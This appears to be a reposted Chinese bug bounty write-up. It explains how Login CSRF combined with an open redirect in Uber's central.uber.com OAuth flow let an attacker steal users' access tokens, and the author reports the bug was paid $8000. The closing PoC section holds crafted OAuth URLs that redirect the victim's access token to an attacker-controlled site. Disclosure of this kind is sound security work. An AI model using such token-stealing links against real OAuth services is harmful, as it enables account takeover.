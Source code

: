 ```yaml
---
layout: post
title:  "【挖洞经验】我如何挖到了一个价值8000美金的Uber漏洞"
title2:  "【挖洞经验】我如何挖到了一个价值8000美金的Uber漏洞"
date:   2017-01-01 23:54:27  +0800
source:  "https://www.jfox.info/%e6%8c%96%e6%b4%9e%e7%bb%8f%e9%aa%8c%e6%88%91%e5%a6%82%e4%bd%95%e6%8c%96%e5%88%b0%e4%ba%86%e4%b8%80%e4%b8%aa%e4%bb%b7%e5%80%bc8000%e7%be%8e%e9%87%91%e7%9a%84uber%e6%bc%8f%e6%b4%9e.html"
fileName:  "20170101167"
lang:  "zh_CN"
published: true
permalink: "2017/https://www.jfox.info/%e6%8c%96%e6%b4%9e%e7%bb%8f%e9%aa%8c%e6%88%91%e5%a6%82%e4%bd%95%e6%8c%96%e5%88%b0%e4%ba%86%e4%b8%80%e4%b8%aa%e4%bb%b7%e5%80%bc8000%e7%be%8e%e9%87%91%e7%9a%84uber%e6%bc%8f%e6%b4%9e.html"
---
```

{% raw %}
[Alpha_h4ck](https://www.jfox.info/go.php?url=http://www.freebuf.com/author/alpha_h4ck)共**1730**人围观 [漏洞](https://www.jfox.info/go.php?url=http://www.freebuf.com/./vuls)
我研究Uber漏洞已经有一段时间了，而这是我第一次发布关于Uber漏洞挖掘的报告，希望可以给大家提供一些有趣的挖洞思路。在这篇文章中，我将会跟大家分享一个我在Uber系统中发现的有趣漏洞（Login CSRF + 开放重定向 -> 账户接管）。 

## 长话短说

这个漏洞存在于Uber的central.uber.com节点，它使用了OAuth 2.0协议作为其登录授权机制，但该节点并没有正确使用CSRF参数，这将导致攻击者能够利用这种错误使用的状态参数来执行开放重定向以及Login CSRF，然后在实现重定向之后窃取URL哈希中的访问令牌。

## central.uber.com的登录流程

首先大家要了解central.uber.com的登录流程（修复前），当用户点击了central.uber.com页面中的登录按钮之后，系统的运行机制和跳转如下：

1.[https://central.uber.com/login?state=/somewhere](https://www.jfox.info/go.php?url=https://central.uber.com/login?state=/somewhere)

2. [https://login.uber.com/oauth/authorize?response_type=code&scope=profile%20history&client_id=bOYt8vYWpnAacUZt9ng2LILDXnV-BAj4&redirect_uri=https%3A%2F%2Fcentral.uber.com%2Foauth2-callback&state=%2Fsomewhere](https://www.jfox.info/go.php?url=https://login.uber.com/oauth/authorize?response_type=code&amp;scope=profile%20history&amp;client_id=bOYt8vYWpnAacUZt9ng2LILDXnV-BAj4&amp;redirect_uri=https%3A%2F%2Fcentral.uber.com%2Foauth2-callback&amp;state=%2Fsomewhere)

3. [https://central.uber.com/oauth2-callback?state=%2F&code=it53JtFe6BPGH1arCLxQ6InrT4MXdd](https://www.jfox.info/go.php?url=https://central.uber.com/oauth2-callback?state=%2F&amp;code=it53JtFe6BPGH1arCLxQ6InrT4MXdd)

4. [https://central.uber.com/somewhere](https://www.jfox.info/go.php?url=https://central.uber.com/somewhere)

注:如果你想充分理解这个漏洞的话，你首先必须要清楚该节点所采用的用户登录流程，所以请各位多花点时间好好看看上面给出的跳转链接。

当我看到了整个登录流程之后，我首先想到的攻击方法是将状态参数/somewhere修改为//google.com来实现一次可能的开放重定向。修改之后的登录流程如下：

1.  [https://central.uber.com/login?state=//google.com](https://www.jfox.info/go.php?url=https://central.uber.com/login?state=//google.com)

2.  [https://login.uber.com/oauth/authorize?response_type=code&scope=profile%20history&client_id=bOYt8vYWpnAacUZt9ng2LILDXnV-BAj4&redirect_uri=https%3A%2F%2Fcentral.uber.com%2Foauth2-callback&state=%2F%2fgoogle.com](https://www.jfox.info/go.php?url=https://login.uber.com/oauth/authorize?response_type=code&amp;scope=profile%20history&amp;client_id=bOYt8vYWpnAacUZt9ng2LILDXnV-BAj4&amp;redirect_uri=https%3A%2F%2Fcentral.uber.com%2Foauth2-callback&amp;state=%2F%2fgoogle.com)

3.  [https://central.uber.com/oauth2-callback?state=%2F%2fgoogle.com&code=it53JtFe6BPGH1arCLxQ6InrT4MXdd](https://www.jfox.info/go.php?url=https://central.uber.com/oauth2-callback?state=%2F%2fgoogle.com&amp;code=it53JtFe6BPGH1arCLxQ6InrT4MXdd)

4.  //google.com 

果然不出我所料，我成功地将这个登录流程变成了一个开放重定向漏洞，但Uber并不接受关于开放重定向漏洞的报告，所以我还得想办法通过这个漏洞找到其他更有意思的漏洞。但不管怎么样，这仍然是一个非常好的开端。

由于Oauth请求使用的是code而并非token，所以即便是我们找到了一个开放重定向漏洞，我们也仍然无法利用它来窃取到任何信息。那如果我们将请求所使用的code转换为token的话，又会发生什么呢？

1.  [https://login.uber.com/oauth/authorize?response_type=token&scope=profile%20history&client_id=bOYt8vYWpnAacUZt9ng2LILDXnV-BAj4&redirect_uri=https%3A%2F%2Fcentral.uber.com%2Foauth2-callback&state=%2F%2fgoogle.com](https://www.jfox.info/go.php?url=https://login.uber.com/oauth/authorize?response_type=token&amp;scope=profile%20history&amp;client_id=bOYt8vYWpnAacUZt9ng2LILDXnV-BAj4&amp;redirect_uri=https%3A%2F%2Fcentral.uber.com%2Foauth2-callback&amp;state=%2F%2fgoogle.com)

2.  [https://central.uber.com/oauth2-callback?state=%2F%2fgoogle.com#access_token=xxxxx](https://www.jfox.info/go.php?url=https://central.uber.com/oauth2-callback?state=%2F%2fgoogle.com#access_token=xxxxx)

3.  无法实现重定向

由于我们这里没有给[https://central.uber.com/oauth2-callback](https://www.jfox.info/go.php?url=https://central.uber.com/oauth2-callback)提供有效的code值，所以在上述的第2步之后才没能实现重定向。如果无法实现重定向，那我们就没办法窃取到访问令牌了。所以我们得想办法解决这个问题，我们需要一个针对oauth2-callback节点的有效code值。

### Login CSRF

在这种情况下，Login CSRF就要派上用场了。由于这个Uber节点会在重定向时使用 CSRF参数状态，所以我们可以直接将攻击者的有效OAuth code添加到oauth2-callback节点，然后将其发送给目标用户。当用户访问了这条链接之后，就可以被正确地重定向到攻击者所控制的页面并泄露其访问令牌。

### 限制

利用这个漏洞时唯一的要求就是目标用户的浏览器中已经存储了login.uber.com的身份认证会话信息（session）。由于central.uber.com是Uber的官方OAuth客户端，所以每一位Uber用户默认都会接受central.uber.com的请求。

### 概念验证PoC

PoC

    https://login.uber.com/oauth/authorize?response_type=token&scope=profile%20history%20places%20ride_widgets%20request%20request_receipt%20all_trips&client_id=bOYt8vYWpnAacUZt9ng2LILDXnV-BAj4&redirect_uri=https%3A%2F%2Fcentral.uber.com%2Foauth2-callback%3fcode%3d攻击者的有效OAuth code&state=%2F%2f攻击者控制的站点

PoC登录流程

    
    1.https://login.uber.com/oauth/authorize?response_type=token&scope=profile%20history%20places%20ride_widgets%20request%20request_receipt%20all_trips&client_id=bOYt8vYWpnAacUZt9ng2LILDXnV-BAj4&redirect_uri=https%3A%2F%2Fcentral.uber.com%2Foauth2-callback%3fcode%3d{攻击者的有效OAuth code}&state=%2F%2f攻击者控制的站点
    
    2.https://central.uber.com/oauth2-callback?state=%2F%2fhackerone.com&code={攻击者的有效OAuth code}#access_token={目标用户的访问令牌}
    
    3.//hackerone.com#accesstoken={目标用户的访问令牌}
    

### 总结

终于搞定啦！我已经将这个漏洞上报给了Uber的安全技术团队，Uber也在确认了漏洞信息之后给我提供了8000美刀的漏洞奖励。

感谢大家的阅读，如果你有什么其他的观点或想法，请赶紧与我联系吧！（@ngalongc）

* 参考来源：ngailong， FB小编Alpha_h4ck编译，转载请注明来自FreeBuf.COM
{% endraw %}
